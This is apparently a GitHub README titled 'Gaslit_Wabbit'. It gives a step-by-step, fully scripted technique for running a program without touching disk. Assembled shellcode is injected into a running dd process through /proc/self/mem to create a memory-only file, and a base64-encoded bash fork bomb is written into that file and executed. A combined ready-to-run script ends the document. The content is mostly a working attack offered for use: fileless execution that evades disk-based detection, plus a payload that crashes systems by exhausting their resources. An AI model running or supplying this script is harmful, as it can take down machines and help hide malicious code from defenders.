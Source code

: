 # Gaslit_Wabbit
1978 wabbit fork bomb running in Ram

first we get the syscall numbers for
- memfd_create
- pause
- exit

```shell
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep memfd_create
```
- ```#define __NR_memfd_create 319```

```shell
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep pause
```
- ```#define __NR_pause 34```

```shell
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep exit
```
- ```#define __NR_exit 60```



next we create some assembly that will
- duplicate FDs: 10 and 11
```asm
xor rax, rax
xor rdi, rdi
mov di, 10
mov rax, 0x20
syscall
xor rax, rax
inc rdi
mov rax, 0x20
syscall
```
- create an in-memory-only file (syscall 319)
```asm
push 0x78436f73
mov rdi, rsp
mov rsi, 0
mov rax, 319
syscall
```
- suspend the process (syscall 34)
```asm
mov rax, 34
syscall
```
- exit process (syscall 60) (should never be reached)
```asm
xor rax, rax
add rax, 60
xor rdi, rdi
syscall
```
putting it all together:

```asm
BITS 64
global _start
section .text
_start:
        xor rax, rax
        xor rdi, rdi
        mov di, 10
        mov rax, 0x20
        syscall
        xor rax, rax
        inc rdi
        mov rax, 0x20
        syscall
memfd_create:
        push 0x78436f73
        mov rdi, rsp
        mov rsi, 0
        mov rax, 319
        syscall
pause:
        mov rax, 34
        syscall
exit:
        xor rax, rax
        add rax, 60
        xor rdi, rdi
        syscall
```

next, we nasm the assembly code and do a hexdump,

```shell
nasm memfd.asm
```
```shell
hexdump -v -e '"\\""x" 1/1 "%02x" ""' memfd
```
- ```\x48\x31\xc0\x48\x31\xff\x66\xbf\x0a\x00\xb8\x20\x00\x00\x00\x0f\x05\x48\x31\xc0\x48\xff\xc7\xb8\x20\x00\x00\x00\x0f\x05\x68\x73\x6f\x43\x78\x48\x89\xe7\xbe\x00\x00\x00\x00\xb8\x3f\x01\x00\x00\x0f\x05\xb8\x22\x00\x00\x00\x0f\x05\x48\x31\xc0\x48\x83\xc0\x3c\x48\x31\xff\x0f\x05```

next, we find the PID addresses for DD fclose,

```shell
setarch x86_64 -R dd if=/proc/self/maps | grep "bin/dd"
```
```shell
555555554000-555555556000 r--p 00000000 ca:01 262762      /usr/bin/dd
555555556000-555555564000 r-xp 00002000 ca:01 262762      /usr/bin/dd
555555564000-555555569000 r--p 00010000 ca:01 262762      /usr/bin/dd
555555569000-55555556a000 r--p 00014000 ca:01 262762      /usr/bin/dd
55555556a000-55555556b000 rw-p 00015000 ca:01 262762      /usr/bin/dd
```

let's remove what we don't need,
```shell
setarch x86_64 -R dd if=/proc/self/maps | grep "bin/dd" | head -c 12
```
- ```55555555400```

```shell
objdump -Mintel -d `which dd` | grep fclose
```
```shell
0000000000002170 <fclose@plt>:
    67e6:   e8 85 b9 ff ff     call   2170 <fclose@plt>
    681b:   e9 50 b9 ff ff     jmp    2170 <fclose@plt>
```
let's remove what we don't need,

```shell
pid_address_2=$(objdump -Mintel -d `which dd` | grep fclose | tr -d ' ' | grep jmp | cut -c 1-4)
```
- ```681b```

we see the PID addresses are,
- ```0x555555554000```
- ```0x681b```

now, let's put that into some variables,

```bash
pid_address_1=$(setarch x86_64 -R dd if=/proc/self/maps | grep "bin/dd" | head -c 12)
pid_address_2=$(objdump -Mintel -d `which dd` | grep fclose | tr -d ' ' | grep jmp | cut -c 1-4)
```

now, let's create some shellcode that uses the hexdump and PID addresses to create an in-memory-only file,
```shell
echo -n -e "\x48\x31\xc0\x48\x31\xff\x66\xbf\x0a\x00\xb8\x20\x00\x00\x00\x0f\x05\x48\x31\xc0\x48\xff\xc7\xb8\x20\x00\x00\x00\x0f\x05\x68\x73\x6f\x43\x78\x48\x89\xe7\xbe\x00\x00\x00\x00\xb8\x3f\x01\x00\x00\x0f\x05\xb8\x22\x00\x00\x00\x0f\x05\x48\x31\xc0\x48\x83\xc0\x3c\x48\x31\xff\x0f\x05" | setarch x86_64 -R dd of=/proc/self/mem bs=1 seek=$(( 0x$pid_address_1 + 0x$pid_address_2 )) conv=notrunc 10<&0 11<&1 & sudo ls -al /proc/$(pidof dd)/fd/
```

now, let's create a wabbit virus that we can encode to the in-memory-only file,

```bash
#!/bin/bash
:(){ :|:& };:
```

```shell
chmod +x wabbit.sh
```

```shell
cp wabbit.sh wabbit
```
now let's base64 encode it,
```shell
cat wabbit | base64 -w0 ; echo
```
- ```IyEvYmluL2Jhc2gKOigpeyA6fDomIH07Ogo=```

then, transfer it to the in-memory-only file,

```shell
echo "IyEvYmluL2Jhc2gKOigpeyA6fDomIH07Ogo=" | base64 -d > /proc/`pidof dd`/fd/3
```

and finally, run the in-memory-only file,
```shell
/proc/`pidof dd`/fd/3 -a
```

putting it all together we have,

```bash
#!/bin/bash
pid_address_1=$(setarch x86_64 -R dd if=/proc/self/maps | grep "bin/dd" | head -c 12)
pid_address_2=$(objdump -Mintel -d `which dd` | grep fclose | tr -d ' ' | grep jmp | cut -c 1-4)
echo -n -e "\x48\x31\xc0\x48\x31\xff\x66\xbf\x0a\x00\xb8\x20\x00\x00\x00\x0f\x05\x48\x31\xc0\x48\xff\xc7\xb8\x20\x00\x00\x00\x0f\x05\x68\x73\x6f\x43\x78\x48\x89\xe7\xbe\x00\x00\x00\x00\xb8\x3f\x01\x00\x00\x0f\x05\xb8\x22\x00\x00\x00\x0f\x05\x48\x31\xc0\x48\x83\xc0\x3c\x48\x31\xff\x0f\x05" | setarch x86_64 -R dd of=/proc/self/mem bs=1 seek=$(( 0x$pid_address_1 + 0x$pid_address_2 )) conv=notrunc 10<&0 11<&1 & sudo ls -al /proc/$(pidof dd)/fd/
echo "IyEvYmluL2Jhc2gKOigpeyA6fDomIH07Ogo=" | base64 -d > /proc/`pidof dd`/fd/3
/proc/`pidof dd`/fd/3 -a
```